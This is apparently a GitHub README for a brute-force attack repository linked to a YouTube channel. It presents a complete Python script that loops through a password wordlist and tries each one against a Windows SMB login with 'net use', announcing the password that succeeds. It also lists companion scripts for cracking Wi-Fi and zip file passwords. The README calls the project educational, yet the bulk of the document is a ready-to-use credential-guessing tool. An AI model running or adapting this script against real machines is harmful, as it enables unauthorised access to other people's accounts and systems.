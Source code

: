 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanxa](https://www.youtube.com/@peymanxa) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Content List](#content-list)
- [License](#license)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.

## Preview
![login](https://github.com/user-attachments/assets/075a2c88-b7e9-41a7-8ee4-7d8e8392d867)


## Sample Code

```python
import os
from tqdm import tqdm
from colorama import Fore, Style, init

# Initialize colorama
init()
os.system('title @peymanx Windows Login Password Brute-force attack')

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0

def read_passwords(file_path):
    with open(file_path, 'r') as file:
        passwords = file.readlines()
    return [password.strip() for password in passwords]

def main():
    ip = '127.0.0.1'
    username = 'peymanx'
    password_file = './passwords/common.txt'

    passwords = read_passwords(password_file)
    total_passwords = len(passwords)

    max_password_length = max(len(password) for password in passwords)
    with tqdm(total=total_passwords, desc="Trying passwords", unit="password") as pbar:
        for password in passwords:
            padded_password = password.ljust(max_password_length)
            pbar.set_description(f"{Fore.YELLOW}Trying password: {padded_password}{Style.RESET_ALL}")
            if connect_to_smb(ip, username, password):
                print(f'\n{Fore.GREEN}{"*"*70}')
                print(f'{Fore.GREEN}Successfully connected!')  # Blinking text
                print(f'{Fore.GREEN}Password: \'\033[5m{password}\033[0m{Fore.GREEN}\'')  # Blinking text
                print(f'{Fore.GREEN}{"*"*70}{Style.RESET_ALL}\n')
                break
            pbar.update(1)
        else:
            print(f'\n{Fore.RED}Password not found{Style.RESET_ALL}')

if __name__ == '__main__':
    main()
```

## Content List

- **passwords**
  - More password samples added (Jan 17, 2025)
- **login_hack.py**
  - Windows login hack 
- **wifi_hack.py**
  - WiFi hack 
- **zip_hack.py**
  - Compressed file password hack 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.


